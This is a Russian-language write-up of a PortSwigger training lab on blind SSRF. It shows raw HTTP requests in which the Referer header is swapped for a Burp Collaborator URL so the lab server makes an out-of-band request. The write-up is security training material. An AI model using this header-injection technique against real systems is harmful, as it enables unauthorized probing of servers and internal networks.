 ```yaml
---
title: "Blind SSRF with out-of-band detection"
date: 2025-08-21
tags: [web, writeup]  
categories: [PortSwigger]
tagline: ""
header:
  overlay_image: /assets/images/IMG_writeups/IMG_PortSwigger/ps_logo.webp
  overlay_filter: 0.5 
  overlay_color: "#fff"
  actions:
    - label: "Lab PortSwigger"
      url: "https://portswigger.net/web-security/learning-paths/ssrf-attacks/ssrf-attacks-blind-ssrf-vulnerabilities/ssrf/blind/lab-out-of-band-detection"
classes: wide
---
```


Для решения лабы нужно отправить запроса на `Burp Collaborator`.

```
https://0ab600f6036267f4820a524c001d00da.web-security-academy.net/
```

## Solution

Для начала изучу работу сайта, чтобы собрать `HTTP`-запросы через `Burp Proxy`. 

Попробую потестировать `GET`-запрос для получения страницы товара:

```http
GET /product?productId=6 HTTP/2
Host: 0ab600f6036267f4820a524c001d00da.web-security-academy.net
Cookie: session=lhMELrWr3llpsZocZS22hVgFjTVanfTT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: https://0ab600f6036267f4820a524c001d00da.web-security-academy.net/
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Попробую использовать поле `Referer`, так как оно единственное содержит `URL` и изменяется при переходе от страницы к страницe. Для этого получу `URL` в `Burp Collaborator`: `ub99y5hosk30d0e2615mdnbrmis9gz4o.oastify.com`. Теперь подставлю его в поле:

```http
GET /product?productId=6 HTTP/2
Host: 0ab600f6036267f4820a524c001d00da.web-security-academy.net
Cookie: session=lhMELrWr3llpsZocZS22hVgFjTVanfTT
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:137.0) Gecko/20100101 Firefox/137.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Referer: http://ub99y5hosk30d0e2615mdnbrmis9gz4o.oastify.com
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
Te: trailers
```

Ответ:

```http
HTTP/2 200 OK
Content-Type: text/html; charset=utf-8
X-Frame-Options: SAMEORIGIN
Content-Length: 3913

...

```

Проверю логи `Burp Collaborator`.

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Blind_SSRF_with_out-of-band_detection/1.png){: height="200" .align-center}

В логах вижу запрос. Значит сервер отправил `HTTP`-запрос. Что и требовалось:

![IMG](/assets/images/IMG_writeups/IMG_PortSwigger/IMG_ssrf/IMG_Blind_SSRF_with_out-of-band_detection/2.png){: height="200" .align-center}

